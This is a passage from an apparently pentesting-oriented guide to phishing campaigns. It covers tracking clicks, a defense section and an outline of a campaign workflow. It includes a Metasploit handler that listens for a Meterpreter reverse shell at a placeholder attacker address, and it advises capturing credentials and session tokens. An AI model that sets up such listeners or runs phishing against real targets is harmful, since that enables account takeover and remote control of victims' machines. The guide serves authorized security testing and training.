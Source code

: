
### **9. Monitoring Phishing Engagement**

1. **Track Responses**:
    - Record link clicks and data submissions.
    - Example tools: **Evilginx2**, **Gophish**.
2. **Analyze Payload Execution**:
    - Use listeners like **Metasploit** or **Cobalt Strike** to monitor connections.
    
    ```bash
    msfconsole
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST attacker_ip
    set LPORT 4444
    exploit
    
    ```
    
3. **Gather Data**:
    - Capture credentials or session tokens for further exploitation.

---

### **10. Ethical Considerations for Phishing**

- **Authorization**: Only perform phishing attacks in authorized engagements.
- **Clear Scope**: Define objectives and boundaries with the client.
- **Reporting**: Document findings and educate the client on defense mechanisms.

---

### **11. Defense Against Phishing**

### **a. User Awareness**

- Conduct regular training on identifying phishing attempts.
- Encourage cautious behavior with links and attachments.

### **b. Technical Controls**

1. **Email Security**:
    - Deploy spam filters (e.g., Microsoft Defender, Proofpoint).
    - Enforce DMARC, DKIM, and SPF policies.
2. **Link Protection**:
    - Use URL filtering to block malicious domains.
3. **Attachment Scanning**:
    - Analyze files for embedded payloads or macros.

---

### **12. Example Workflow for a Phishing Campaign**

1. **Reconnaissance**:
    - Collect email addresses and context (e.g., common themes in company communication).
2. **Setup**:
    - Register a domain and configure DNS.
    - Host a phishing page and payloads.
3. **Email Crafting**:
    - Write a realistic email using the target’s style and branding.
4. **Delivery**:
    - Use tools like Gophish to send emails.
5. **Monitoring**:
    - Track clicks and payload execution.
